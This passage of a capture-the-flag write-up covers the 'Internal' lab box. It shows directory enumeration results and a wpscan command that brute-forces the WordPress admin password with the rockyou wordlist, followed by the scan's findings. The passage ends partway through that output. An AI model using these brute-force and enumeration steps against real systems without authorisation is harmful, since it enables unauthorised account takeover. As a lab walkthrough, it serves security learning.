 A default apache page with nothing interesting in the html code so lets enumerate
```
/index.html           (Status: 200) [Size: 10918]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
```
The /phpmyadmin page was found later than the others and as such we had already begun work as below and proved unecessary.

We find a /blog directory that takes us to a wordpress site, we find the login panel at /wp-login.php and try some default admin credentials to no avail so we go ahead and use wpscan as follows to try and find some extra information and then try and crack the admin password
```
# wpscan --url http://internal.thm/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin

[+] URL: http://internal.thm/blog/ [10.10.4.119]
[+] Started: Fri May 14 11:44:36 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://internal.thm/blog/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-04-27T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.7
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
```